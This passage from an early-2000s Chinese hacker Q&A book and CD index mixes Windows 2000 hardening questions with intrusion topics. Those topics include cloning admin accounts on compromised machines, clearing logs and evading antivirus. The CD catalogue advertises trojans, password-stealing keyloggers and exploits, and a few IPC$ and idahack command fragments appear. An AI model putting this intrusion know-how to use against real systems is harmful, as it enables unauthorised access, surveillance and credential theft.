- 150 有时候连接 telnet 会出现这种情况：整个命令提示符只有一条横线在左上角闪，这时按键几乎失灵，只好把它关了，请问这是为什么？
- 150 系统中有 winhelp 和 iexplore 进程，一直占用 CPU 很多资源，而且瑞星一直报告 iexplore 试图发送 email，有没有问题？
- 150 能说一下 IP 数据包的格式吗？
- 151 我现在用的是 win2k，有没有必要升级到 Windows XP？
- 151 我听说交换机有两种工作模式，那都是什么？
- 151 我的 win2k 只有我自己用，我能不能取消 win2k 的登录界面呢？
- 152 什么叫信任关系？
- 152 什么是 NTLM 验证？
- 152 什么是访问令牌？
- 152 192.168.1.0/24 这表示什么意思啊？
- 152 常见的一级域名都有哪些？
- 153 如何登录路由器？
- 153 如何才能学习路由器命令？我不可能去买一台吧。
- 153 IUSR_MACHINENAME 这是什么帐号？
- 153 IWAM_MACHINENAME 是什么帐号？
- 154 TSInternetUser 是什么帐号？

# 附录

- 154 详解 boot.ini

## 第十章：win2k 安全进阶探索

- 156 aBcD@&*890 这样的密码安全性怎么样？是不是很难被破解呢？
- 156 有人把密码设为暗码，就是看起来像个空格，但是输入空格后却不行，这是怎么做的？
- 156 win2k 的锁定阈值如何使用？
- 157 描述：1563 端口不停地向网上一些古怪 IP 发送 UDP 报，造成上网时候发送的数据比收到的数据还要多……请问可能是什么原因引起？
- 158 我的天网防火墙一直都有接收 IGMP 的数据包，24 小时没停过，都 3 天了，如何禁止？
- 158 我听说过 win2k 的登录密码缓存存在问题，是怎么回事？
- 159 我的 win2k 每次开机都会共享所有的盘，而且是隐藏共享，是不是被黑了？
- 159 每当我上传后缀为 exe 的文件的时候，就会出现禁止的字样，怎么回事？
- 160 为什么要把防火墙放在路由器的前面？放在前面和后面有什么不一样？能说说理由吗？
- 160 如何修改 Terminal Service 默认使用的 3389 端口？
- 161 远程主机开放了 Terminal Service 服务，却修改了端口，但在连接的时候还是连接对方的 3389，可以改吗？
- 161 我用的是 Windows XP Professional 版，怎么修改 Terminal Service 客户端的端口？
- 162 打开防火墙后，设置了监听 QQ 应用程序，然后发现有时防火墙一直警报，就是没有好友信息，请问这是为什么？
- 162 听说用 nc 可以监听端口，如果我想要监听本地的端口 80，来监视谁在与我进行连接，该怎么做？
- 162 如何关闭 445 端口？
- 163 什么是 IPsec？
- 163 如何关闭掉 135 端口？
- 164 什么是防火墙规则？
- 165 如何使用登录脚本来关闭 IPC$ 这些默认共享？
- 166 有没有办法防止 MAC 地址被盗用？
- 166 最近我经常遭受到别人的 DoS 攻击，但是我又不能肯定，怎么才能判断呢？
- 167 常见的 DoS 攻击都有哪些？
- 168 最近我的 QQ 发送消息的时候后面总会带上一个网址，这是怎么回事啊？
- 168 最近我的 QQ 总是掉线，先是报告 QQ 出错，然后就……

- 169 什么是 CGI 后门程序？如何防范？
- 169 我的机器总是收到 IGMP 数据包，时间稍微一长就造成死机，怎么解决？
- 169 win2k 下，如何彻底关闭 NETBIOS 端口呢？
- 170 在使用命令：nbtstat -A 192.168.0.1 的时候，会看到 NAME 下有很多东西，那些东西都是什么意思啊？
- 171 什么是端口反弹型木马？
- 171 如何不让别人查出我的 IP？
- 171 什么叫对称加密？
- 171 什么叫非对称加密？
- 172 什么是数字证书？
- 172 什么叫做数字签名？
- 172 什么是 SSL？
- 172 什么是 TLS？
- 173 什么是 SSH？
- 173 什么是 PGP？
- 173 可以介绍一下计算机的几个安全级别吗？
- 173 听说 win2k 的 445 端口好像会造成拒绝服务攻击，是怎么回事呢？
- 174 我是管理员，但一般情况下我只以普通用户来登录计算机，但是一些程序需要以管理员的身份来运行，我该怎么做呢？
- 174 如何才能记录从 3389 端口登录的用户？
- 175 我的系统是 win2k+NTFS，设置了权限，只有管理员能访问，后来由于有人要用机器，我就又建立了一个帐号，也是管理员，但是他什么访问权限也没有，为什么啊？
- 176 在 win2k 中，想要保护文件或文件夹，该怎么才能给文件加密？
- 176 什么是陷阱帐号？
- 176 经常有人给我发骚扰信，我该如何追踪邮件？
- 177 SA 密码是什么？
- 177 怎么样才可以查看与本地机有连接会话的主机？
- 178 如何备份注册表？
- 178 win2k 的日志都有哪些，都在哪里？
- 179 防火墙和杀毒软件是一样的吗？
- 179 win2k server 中有 winhelp.exe 和 winhlp32.exe 吗？为什么删掉之后又恢复了呢？
- 180 什么是蜜罐？
- 180 最近总有人扫描我的 7626 端口，我想给对方做个陷阱，可以吗？
- 181 如何查看 IIS 记录下来的日志？
- 181 什么是 syskey 加密？

# 附录

- 181 瑞星防火墙和绿色警戒的规则设置
- 183 组策略实用配置一览
- 185 密码强度测试

## 第十一章：win2k 入侵常见问题

- 188 我想成为一个黑客，该怎么做？
- 188 ping 不到，也 tracert 不到；用 nbtstat 却可以显示一些信息，为什么？
- 189 WIN2000 密码忘了！进不去了！有办法么？
- 189 什么是字典？
- 189 知道了 SNMP 密码，该如何利用？
- 190 看来 SNMP 这个东西挺危险，怎么防御啊？
- 191 企业邮箱不支持 WEB 收发，取得账号和密码以后，怎么样不让邮件下载到本地？有没有这样的工具？
- 191 用 net use \\ip\ipc$ "admin" /user:"admin" 连接对方机器，显示命令完成，然后 copy 文件到对方机器：copy c:\*.exe \\ip\admin$，为什么会显示找不到网络名，错误 67？
- 191 admin$ 这个共享是什么？
- 191 对方为 win98，怎么样才可以给对方开共享呢？
- 192 我明明有系统管理员的用户名和密码，并且可以用 net use 建立 IPC$ 连接。这台主机是在自己的系统上（登录 IPC$ 连接以后）。
- 192 怎样在命令提示符下安装 Terminal Service？
- 192 能用 telnet 登录上去，怎么让硬盘共享、怎么下载文件？请高手帮忙。
- 193 我不想使用 win2k 的 telnet 服务，有没有其他 telnet 后门程序？
- 194 输入法漏洞是什么？
- 195 IPC$ 常见问题集
- 195 建立了 IPC$ 空连接后，到底有什么作用呢？
- 195 我经常在建立 IPC$ 连接的过程中碰到返回一个错误号的情况，这些号是干什么用的？
- 195 我的系统是 win98，为什么不能建立 IPC$ 连接啊？
- 195 怎样打开目标的 IPC$？
- 196 怎么样才能禁止别人与我进行 IPC$ 连接？
- 196 “null.ida 漏洞”如何利用？我老不成功。
- 196 听说可以根据 ping 的结果来判断主机的操作系统类型，如何判断？
- 197 哪里有连接 Terminal Service 终端服务的工具啊？
- 197 如何才能下载一个网站的数据库呢？
- 197 请教：443 - HTTPS（Secure HTTP）有什么用，可以进入吗？

## 二、实战

- 197 我想用 `nbtstat -a ip` 这个命令来获得对方的一些系统信息，但是结果却是“Host not found.”，why
- 197 如何破解 win2k 的密码
- 198 怎么给文件起双后缀，比如，我有一个文件 `readme.txt`，想在后面加一个后缀 `bat`，怎么加（实际执行的是 `bat`，一般看见的是 `txt`）
- 198 我 telnet 别人的端口（不是 23 端口），但不知道用什么命令
- 198 如何获得本网段内所有主机的 IP 地址
- 198 常见到人们用 `telnet ip 80` 来获得 Web 服务器的信息，怎么用啊
- 199 怎样进入内部网络
- 199 如何才能确定对方网关的 IP 地址
- 199 有什么好的工具来连接 SQL SERVER 吗
- 199 针对 IDA 溢出，应该使用什么工具
- 199 我找到一台路由器，但怎么才能连上去
- 200 我已经攻占了一台路由器，有什么用
- 200 用 3389 远程登录后进行的操作对方在屏幕上可以看到吗
- 200 我用 3389 登录上一台机器后，运行了一个程序，退出时没有注销我的用户，但当那台机器的管理员在关机的过程中，会出现“已经有一个用户连接你的计算机，关机会造成数据丢失”的信息框！那么这样就很容易暴露自己
- 201 请问，怎么克隆肉鸡管理员账号
- 201 如何利用注册表克隆账号
- 202 如何在 3389 机上下载文件，让它支持断点续传，或者可以用网际快车之类的软件下载呢
- 203 怎样在肉机上建立代理
- 205 怎么使用代理啊，我不会设置
- 206 我有两个代理服务器，怎么能设置成双重代理
- 206 怎样解决 telnet 的“到主机的连接丢失”
- 207 建立 ipc$ 连接的时候，出现“提供的凭据与已存在的凭据集冲突。”怎么回事
- 207 一台机器，有输入法漏洞，但是按 shift+ctrl 切换输入法后，右键并点帮助，总是没有帮助栏弹出来啊
- 208 我知道一台可以用 IPC$ 连接到的 WIN2000 的 administrator 和密码，可是我每次连接上以后用 `dir c:\`，所看到的都是本机的 `c:\`，请问这是为什么啊
- 208 `net use z: \\000.000.000.000\c$ /user:admin` 返回提示：密码在 `\\218.27.15.143\f$` 无效。为什么
- 208 请问有什么好的键盘记录器呢？带邮件功能的
- 209 要怎么样才能进入内部网络
- 209 我得到了一部路由器的密码，但是对路由器的命令不太了解，能教教我吗
- 210 如何使用得到的 POP3 弱口令
- 211 如何确定一主机的 POP3 服务器地址
- 211 NC 都是英文啊，参数解释都看不懂，贴篇中文的 NC 参数解释吧
- 211 我用的 NC 参数怎么这么少啊
- 211 如何使用 NC 进行端口扫描
- 212 如何使用 NC 建立反向连接
- 212 ncx99 是什么东西，和 nc 有什么区别么
- 213 我登录 3389 主机，却出现超过了容许的最大连接数的错误，怎么办？我有管理员权限
- 213 请问 3389 终端服务有什么快捷键啊
- 213 3389 登录会留下什么记录，如何清除
- 214 如何远程确定对方的 Terminal Service 是否开放
- 214 得到对方的 admin 权限，但是我想得到对方的用户列表，怎么做
- 215 我扫到一个 CGI 漏洞 `/images` 怎么利用
- 216 到底什么才是 CGI 漏洞啊
- 216 我 telnet 到一台主机上，该怎么做才能知道当前的操作系统
- 217 我连接到了对方机器上，但是 `C:\WINNT\system32\config` 下的 SAM 文件 copy 不下来，咋办
- 217 如何才能实现远程关机或是重启呢
- 217 win2k 的终端服务除了有可能存在输入法漏洞以外还有什么其他漏洞吗
- 218 哪款扫描器最好，被扫描过的主机上不会留下记录
- 218 在使用 NETxray 时提示我未能打开适配器，不知道是什么意思
- 218 为什么溢出成功，却 telnet 连接不上，我用的是 idahack；`idahack xxx.xxx.xxx.xxx 80 1 999` => 提示成功溢出，然后 telnet 到 999 端口，没连上，怎么回事
- 218 有没有什么办法可以将两个文件捆绑在一起，当运行其中一个的时候，另外一个也运行
- 218 入侵成功清除日志的时候，在 W3SVC1 文件夹中有个文件 `ex20503.log` 总是提示正在使用中，不能删除，怎么办
- 219 有没有什么工具可以用来清除 win2k 的日志
- 219 用 x-scan 扫描时活动线程突然变得很低，只有 2，应该是什么原因
- 219 肉鸡上传了工具，但是在执行的时候就提示找不到文件，怎么回事
- 219 建立 ipc$ 连接后，copy 文件到对方机器上，结果返回信息“拒绝访问”
- 220 telnet 到对方主机上后，用这个命令：
- 220 一台机器开了防火墙，只留 TCP 80 端口，有 unicode 漏洞，能用 tftp 吗
- 220 我想在 Windows 下用 NMAP，是不是需要编译啊
- 220 入侵成功后，我要做什么
- 221 有人用过了我的机器，但是走的时候没有关 QQ，这样的话，我能获得他的 QQ 密码吗
- 221 怎么才能使自己的木马和后门程序不被杀毒软件杀掉
- 221 我给人种了木马，但是对方为拨号上网，我怎么才能获得他每次的 IP
- 222 有没有什么好的工具可以创建一个管理员，然后再将工具自身删除掉
- 222 有没有用 VBS 编写的脚本可以用来打开对方的 Terminal Service 服务
- 224 如何能远程开启对方的 Task Scheduler 服务（前提：可以建立 ipc$ 连接）
- 225 对方只开了 ipc$ 共享，怎么做
- 225 获得了对方管理员的用户名和密码，怎么获得 shell
- 226 进入对方主机后，把 guest 这个账号加入到 administrators 组中后，一些操作居然说我权限不够，为什么啊
- 226 为什么入侵成功后要克隆或者专门创建一个独立账号呢，使用管理员账号不可以吗
- 227 如何修改 NTLM 的验证方式
- 227 NTLM 验证方式可以修改为 0、1、2 三个值，三个值分别是什么意思
- 227 入侵的时候遇到这样的问题，我用超级用户连接上目标系统，但是不能 COPY 文件，这是为什么
- 228 对方开了 22 端口，我 telnet 后显示：`SSH-1.99-OpenSSH_3.1p1`，这代表了什么意思啊
- 228 请问 5000 端口是干什么用的
- 228 copy 以后用 at 命令的时候，它的时间一定是 24 小时制的吗
- 228 为什么在 win98 下扫描 winxp 的用户，我用 x-scan 扫不出来
- 228 我用 x-scan 扫描对方主机，知道对方开了 FTP，但是却扫不到，我想到对方可能修改了 FTP 端口，但是并没有其他异常端口啊
- 229 我得到的 IP（QQ 上的）是不是真实的 IP 地址，怎么样才能得到真实 IP
- 229 如何判断一台主机属于哪个工作组
- 229 流光 4.7，但打过补丁后还不能用。有谁知道新的补丁啊
- 229 死亡之 ping 要怎么做啊
- 230 怎么判断对方的 FTP 服务器使用的是什么
- 230 443 端口有办法利用吗
- 230 如何获得远程主机的密码散列
- 231 获得远程主机散列后，如何破解
- 231 我的肉鸡在一个局域网中（机器上种有灰鸽子），我在另一个局域网中，那么我能控制它吗
- 231 有一个内部网络，里面的 FTP 服务器只对内部开放，我现在在内部有一台肉鸡，我想连到内部 FTP 上，该怎么做啊
- 231 什么样的网络模型适合于嗅探
- 232 请问连 3389 有没有日志，如果有放在哪边呢
- 232 如何进入只开了端口 80 的主机

# 附录

- 232 IIS 漏洞集锦
- 237 常见漏洞的手工修补方法

## 第十二章：Win2k 问题终结篇

- 240 IPC$ 默认共享是哪个文件夹
- 241 相同的端口号，可以既开 TCP 端口又开 UDP 端口吗
- 242 不是说网卡的 MAC 地址唯一吗，通过注册表怎么也能改 MAC 啊
- 245 建立 ipc$ 连接的时候出现“发生系统错误 1219”，怎么解决
- 245 PQWAK 对 win2k 有效吗
- 246 我想把我的后门程序安置在端口 80 上，可以吗
- 248 如何才能进入内部网络
- 250 我用 NC 扫描 UDP 端口，但是结果所有 UDP 端口都开放，为什么啊
- 252 如何突破网关的种种限制
- 254 怎么样使用 LC4
- 256 我 telnet 连接一台主机，屏幕只是闪一下，然后就显示“遗失对主机的连接”，出了什么问题
- 258 使用 CA 的时候，到一半就提示出错了，怎么回事
- 260 如何分析扫描结果
- 262 如何设置权限以保护我的个人文件
- 264 如何在内部网络中架设 Web 服务器
- 265 如何分析日志和 log 文件记录的内容
- 267 如何进行 win2k 的安全配置
- 271 附录


## 配套光盘 精彩索引



## 经典工具

### Remote Administrator v2.1

这是一款功能强大的远程计算机控制软件，可以在本地通过鼠标、键盘监控远程计算机……和其他远程控制软件一样，安装后也分为服务端（需安装到被控制的电脑）和客户端（本地电脑控制服务端使用），内有详细使用说明。

### mdcrack v1.2

MD5 广泛用于加密和解密技术上，在很多操作系统中，用户的密码是以 MD5 值（或类似其他算法）的方式保存的……此软件就是用来解开那些加密后的 MD5 值的，支持 MD4/MD5/NTLM1，速度不错。

### 广外男生 2003

广外男生远程控制软件 V0.91 使用广外程序员独创的“线程插入”技术……也就是说，即使受控端安装的防火墙拥有“应用程序访问权限”的功能，……

### AccessDiver V4.113 汉化版

AccessDiver 是检测网站安全漏洞的工具，能通过不同代理服务器多线程检测登录账号、密码。请勿用于网站破解，否则一切后果自负！

### Advanced Archive Password Recovery V2.20

Advanced Archive Password Recovery 可以解开 ZIP/PKZip/WinZIP、ARJ/WinARJ、RAR/WinRAR (2.x) 和 ACE/WinACE (2.x) 等几种压缩文件的密码！

### ShadowSecurityScanner (SSS)

ShadowSecurityScanner 5.41 版，俄罗斯安全界非常专业的安全漏洞扫描软件，具有安全扫描、口令检查、操作系统检查等强大功能，支持在线升级。

### x-port

多线程方式扫描目标主机开放端口，扫描过程中根据 TCP/IP 堆栈特征被动识别操作系统类型，若没有匹配记录，尝试通过 NetBIOS 判断是否为 Windows 系列操作系统，并尝试获取系统版本信息。

### srv.exe

srv 加工压缩版可以躲过所有病毒防火墙。

端口改为 1984，以免网管发现。

### 木牛 II

木牛 II V1.0 的主要功能是：远程注销计算机、远程重新启动计算机、远程关闭计算机、木牛信使对话服务，还可以在执行远程主机程序框内输入远程主机的完整程序路径和文件名，即可操作远程主机任何程序……可以运行 CMD 但不支持参数。

### DNSsniffer

DNSsniffer 这个程序可以用来监听本网段的 DNS 协议交换，看看其他的人是在看什么网站。运行环境要在 win2000 或者 XP，网络环境是 HUB。

### Iris

eEye 公司的协议分析器，功能比 NETXRAY 还要多，如果你习惯图形模式，该软件是不错的选择。

### Dev-C++ V4.9.6.0

Dev-C++ 是一个 C++ 开发工具。它包括多页面窗口、工程编辑器，在工程编辑器中集合了编辑器、编译器、连接程序和执行程序。它也提供高亮度语法显示，以减少编辑错误。

### 微软 IE 累积补丁 Q323759

微软 IE 累积补丁 Q323759，不但消除以前已解决的、影响 Internet Explorer 的所有安全漏洞，而且还消除了其他一些新发现的漏洞。

### UWIN v2.9

UWIN——Windows 下的 UNIX 模拟软件，很不错，甚至都有 gcc 这种东西。用过就知道有多爽！

## 二、图书相关

### 冰河 V8.4

该软件主要用于远程监控，具体功能包括：1. 自动跟踪目标机屏幕变化，同时可以完全模拟键盘及鼠标输入；2. 记录各种口令信息：包括开机口令、屏保口令、各种共享资源口令及绝大多数在对话框中出现过的口令信息……

### 初恋情人（Sweet Heart）V1.0

主要用于远程监控，具体功能包括：1. 获取目标机屏幕变化；2. 模拟键盘输入；3. 记录各种口令信息：包括开机口令、屏保口令、各种共享资源口令及绝大多数在对话框中出现过的口令信息；4. 获取系统信息……

#### 聪明基因

只要你在目标机上安装了聪明基因服务器，便可像管理自己计算机一样管理远程计算机，功能强大，操作方便，还有作者不断升级版本。

### pwdump 3

在拥有 Administrator 账号的前提下可以远程导出 Hash，再用 LC3 破解得到用户的密码。

## 配套光盘 精彩索引

### 绿色警戒 V1.11 For Win2000

《绿色警戒》for Win2000 是中联绿盟信息技术公司开发的 Win2000 下的个人防火墙软件。集成了系统监控、网络监控、特洛伊木马检测、入侵检测、数据保护、个人防火墙和自动防病毒等功能，是 PC 的新一代防护软件。

### CA

利用这个工具可以将 Administrator 的账号克隆为一个指定的普通账号（此普通账号必须已经存在）。

### netpass v1.0

本程序利用了 win95/98 的“速度破解器漏洞”，数秒之内即可破解局域网上主机共享文件夹密码。本软件运行于 Win98 下破解对方 Win98 共享密码，测试通过。对 WinNT/2000 主机无效。

### webDAV 攻击程序

IIS WebDAV 远程溢出漏洞的 brute force exploit 程序的编译版本。对有该漏洞的中文版 Windows2000 基本上都能成功。使用方法见 `readme.txt` 文件。

### NETxray

NetXray 是一款极好的网络监听工具，其功能强大而繁多。它能够监控多个网段，并且允许在多个监控实例同时捕获到你想要捕获的任何类型报文。它还可以查 QQ 用户的 IP，能够在线破解 Email，除此之外，尚有众多功能等待你去发掘。

### 广外幽灵 V3.0

1、体积小，服务端只有 30 多 KB；2、记录任何密码（包括 QQ、拨号以及网页中输入的密码等），在本机不生成任何密码记录文件；3、每隔一段时间（7 的倍数）向指定邮箱发送密码信件（很黑哦）……

### 网络神偷（Nethief）v4.4

网络神偷是一个专业级的远程文件访问工具，具有以下特点：针对磁盘文件系统，本软件针对远程文件访问，而不是远程控制，力求“专而精”……

### 全球 IP 列表

## 三、必备教程

- Windows 2000 Server 安全操作指南
- Red Hat Linux 8 入门指南
- IIS 5.0 超级管理手册——网站管理篇
- ASP+SQL 教材大全
- TCP/IP 技术大全

## 四、exploits

### unicode

unicode 的 exploit，不用说了吧，漏洞很早了，提供给大家研究一下。

### iishack2000

这个代码是由 eEye 发布的，win2k 的 ISAPI 扩展中的 printer 溢出 exploit。

### MsSqlHack

MS SqlServer2000，`SSNETLIB.DLL!ConnectionPreLogin.sprintf` 远程溢出工具。

### winnuke

一个可以针对 win2k 和 xp 的 135 端口进行 Nuke 的工具，使对方机器 down 掉。

## 五、影音看板

- EVA 开场动画
- 樱花大战
- 恐龙危机 3
- 名侦探柯南（最新开场动画）

## 呆呆虫问吧

出版：吉林科学技术出版社  
出品人：孙胜利  
策划：覃华  
作者：梁伟  
技术顾问：孤独剑客  
编辑部主任：孙志强  
编辑部：Zero、夏小丽、黑裤子、小木头、呆呆虫、蝎蝎、楚汉  
特约编辑：Python 射手、小刘、雪莲蓬、iceyes  
光盘部主任：刘佳  
光盘部：刘佳、龚连成  
美编：西海梅、何有按  
排版：何有按  
编辑部 E-Mail：HackerXFiles@263.net  
邮购查询 E-Mail：chaxunx@263.net  
邮购查询电话：010-88560080  
联系电话：010-88561473，88561472  
联系人：赵琦、崇晓琳  
邮编：100037  
定价：人民币 25 元（光盘+说明书）

## 第1章 win98 下常用命令

## 怎么入侵&防御3：远程登录解答

### 回显，如何打开回显？

首先在“开始->运行”中键入 `telnet` 打开 telnet 客户端，然后依次选择“终端首选”（图 1-5），弹出一个“终端->首选设置”，选择“终端选项”的“本地响应”就可以打开回显了（图 1-6）。另外，在这里还可以设置一些例如字体颜色等其他属性。



图 1-5



图 1-6

> win98 下的 telnet 有一个神奇的功能，就是可以记录日志，而且记录成 log 文件格式，可以直接用文本查看。方法就是“开始->运行，输入 telnet，运行 telnet 客户端，然后选择“终端”菜单，再选择“开始记录”（图 1-7）。这时候会弹出来一个对话框，要求你给 log 文件起个名字，还要确定路径，按你的意愿保存到想要的位置就可以了。



图 1-7

### 使用什么命令可以查看当前的网络连接状况？

使用命令 `netstat` 可以查看你的计算机和其他计算机的网络连接状况。打开 MS-DOS，输入命令 `netstat -an`（其中 `-a` 和 `-n` 为该命令的参数），这样就可以看到与本地计算机的网络连接状况了（图 1-8）。



图 1-8

**注：**这个命令在 win2k 和 Windows XP 中也可以使用。

另外，如果直接输入 `netstat` 而不带任何参数的话，会显示出当前活动的网络连接（图 1-9），可以看到当前的网络连接，根据 State 下的状态标志位判断连接。



图 1-9

### 用什么命令才可以查看自己的 IP 地址呢？

`ipconfig` 命令可以完成这个工作。直接在 MS-DOS 方式下键入 `ipconfig`（图 1-10）就可以获得本机的 IP 地址、子网掩码、缺省网关这些信息。

